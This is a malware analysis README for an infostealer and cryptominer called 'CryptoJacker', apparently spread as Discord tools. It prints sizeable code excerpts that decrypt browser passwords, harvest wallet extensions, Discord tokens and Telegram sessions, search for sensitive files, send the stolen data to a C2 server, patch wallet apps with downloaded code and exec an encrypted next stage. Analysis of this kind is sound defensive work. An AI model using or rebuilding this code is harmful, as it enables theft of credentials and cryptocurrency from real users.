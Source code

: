 # "CryptoJacker"

This is a multi-payload infomation harvesting and crypto-mining malware.
You can view the Scores and read more on it at the following:
1. [Virus Total](https://www.virustotal.com/gui/file/a79c39b5f74307dfbc6f9fbb16031342bfb6a9042ccc89a27be9808c684fafe5/community)
2. [Triage](https://tria.ge/250130-cd2j2svqfs/behavioral1)

The malware package is presented in many ways, but seems to be most popular with people wanting software to use with Discord; either "Nukers", spammers, or info stealers.

An video on this origin and walkthrough the obfuscation layers can be watched [here](https://www.youtube.com/watch?v=t7REnKeMnYk)

## Payload 01
The first payload is a comprehensive information stealer. It begins by ensuring its dependencies are installed using pip, hiding the console window to remain undetected.

````python
    import sys
    import subprocess
    
        ...
    
    CURRENT_INTERPRETER = sys.executable
    proc = subprocess.Popen([CURRENT_INTERPRETER, "-m", "pip", "install", "pycryptodome", "pypiwin32", "pywin32","requests", "websocket-client"], stdout=subprocess.DEVNULL, stderr=subprocess.DEVNULL,creationflags=subprocess.CREATE_NO_WINDOW)
    proc.wait()

        ...
````

### Targets
The script is configured to steal a wide array of sensitive user data:
*   **Browser Data**: It targets a long list of Chromium-based browsers and Firefox to steal saved passwords, cookies, and web data tokens. It decrypts Chromium's data using the DPAPI key stored in the Local State file.
    ```python
        def decrypt_data(data, key):
            try:
                iv = data[3:15]
                data = data[15:]
                cipher = AES.new(key, AES.MODE_GCM, iv)
                return cipher.decrypt(data)[:-16].decode()
            except:
                return str(win32crypt.CryptUnprotectData(password, None, None, None, 0)[1])
             
                ...

        for browser in CHROMIUM_BROWSERS:
            
                ...
            
            local_state = os.path.join(browser["path"], "Local State")
            if not os.path.exists(local_state): continue

            with open(local_state, "r", encoding="utf-8") as f:
                local_state = json.loads(f.read())

            key = base64.b64decode(local_state["os_crypt"]["encrypted_key"])[5:]
            try:
                decryption_key = win32crypt.CryptUnprotectData(key, None, None, None, 0)[1]
            except:
                pass

                ...
    ```
*   **Cryptocurrency Wallets**: It searches for and exfiltrates data from dozens of cryptocurrency wallet browser extensions (like Metamask, Phantom, and Coinbase) and desktop applications (like Exodus, Atomic, and Electrum).

    ```python
        BROWSER_EXTENSIONS = [
        {"name": "Authenticator", "path": "\\Local Extension Settings\\bhghoamapcdpbohphigoooaddinpkbai"},
        {"name": "Binance", "path": "\\Local Extension Settings\\fhbohimaelbohpjbbldcngcnapndodjp"},
        
                    ...

        {"name": "Metamask", "path": "\\Local Extension Settings\\nkbihfbeogaeaoehlefnkodbefgpgknn"},
        
                    ...

        {"name": "Phantom", "path": "\\Local Extension Settings\\bfnaelmomeimhlpmgjnjophhpkkoljpa"},
            
                    ...

        ]

        WALLET_PATHS = [
            {"name": "Atomic", "path": os.path.join(APPDATA, "atomic", "Local Storage", "leveldb")},
            {"name": "Exodus", "path": os.path.join(APPDATA, "Exodus", "exodus.wallet")},
            {"name": "Electrum", "path": os.path.join(APPDATA, "Electrum", "wallets")},

                    ...
        ]

    ```

*   **Application Data**: It steals session data from Discord and Telegram clients. For Discord, it extracts and validates authentication tokens.

    ```python
        def validate_discord_token(token):
            r = requests.get("https://discord.com/api/v9/users/@me", headers={"Authorization": token})
            if r.status_code == 200:
                return r.json()
            else:
                return None

                    ...

        def telegram():
            try:
                kill_process("Telegram.exe")
            except:
                pass
            source_path = os.path.join(APPDATA, "Telegram Desktop", "tdata")
            
            if os.path.exists(source_path):
                zip_to_storage("tdata_session", source_path, STORAGE_PATH)

                    ...
    ```

*   **Sensitive Files**: It recursively searches the user's `Desktop`, `Documents`, and `Downloads` folders for files containing keywords such as "password", "wallet", "secret", and "2fa", then copies them for exfiltration.

    ```python

        FILE_KEYWORDS = [
        "passw",
        "mdp",
        "motdepasse",
            
            ...

        "metamask",
        "wallet",
        "crypto"
    ]

                        ...

    for path in PATHS_TO_SEARCH:
        for root, _, files in os.walk(path):
            for file_name in files:
                for keyword in FILE_KEYWORDS:
                    if keyword in file_name.lower():
                        
                        ...

    ```

1.  All stolen data is collected and zipped into a temporary folder located at `%APPDATA%/Microsoft Store`.
2.  The script contacts a command-and-control server at `https://pentagon.cy` to register the new victim and receive a unique ID.

    ```python
        def create_log():
            for i in range(10):
                payload = {
                    "passwordcount": len(PASSWORDS),
                    "cookiecount": COOKIECOUNT,
                    "discordtokencount": len(DISCORD_TOKENS),
                    "filenames": FILES,
                }
                headers = {"X-User-Identifier": userid, "Content-Type": "application/json"}

                try:
                    r = requests.post(MAIN_URL + "/create_log", json=payload, headers=headers)
                    if r.status_code == 200:
                        return r.json()["log_uuid"]

                            ...

    ```

3.  The stolen data is then uploaded to the C2 server.
4.  The script attempts to inject malicious code into the `app.asar` files of the Exodus and Atomic wallets, patching them with code downloaded from the C2 server. This likely modifies the wallets to steal funds or credentials upon use.

    ```python
        def inject(loguuid):
            path = os.path.join(LOCALAPPDATA, "exodus")
            if not os.path.exists(path): return
                    
                    ...

            exodusPatchURL = MAIN_URL + "/exodus"
                    
                    ...

            response = urlopen(req)
            data = response.read()
            kill_process("exodus.exe")
            for app in apps:
                try:
                    fullpath = f"{path}\\{app}\\resources\\app.asar"
                    with open(fullpath, 'wb') as out_file1:

                        out_file1.write(data)
    
                    ...

    ```

5.  Finally, it uses a hardcoded Fernet key to decrypt and execute the next stage payload, then cleans up the temporary storage directory.

    ````python

        try:
            from fernet import Fernet;exec(Fernet(b'tYnDVZH8g0OmbkypmHgO6fas8R_IyMfh8N6YXJJoXJg=').decrypt(b'gAAAAABnuPWc9herg9xrGBt9BigXmAqNrz4dE8p6trhbjktC_Fgq9DOylJV6PadaHkvmO4qeEZlTrtGErnf0m_j0JmH7HqYPIRSJ8vRRHAn0qSE1RkGEUy3J1SIE6YNJTykyciE33egiOgM4NTHA-wd74aPN8NKjbH0MBM_9gDO6D8enjSWB1ufOwrCDsoc9JshwU4f7f9Cz'))
        except: pass
        try:
            os.remove(STORAGE_PATH)
        except: pass
    ````

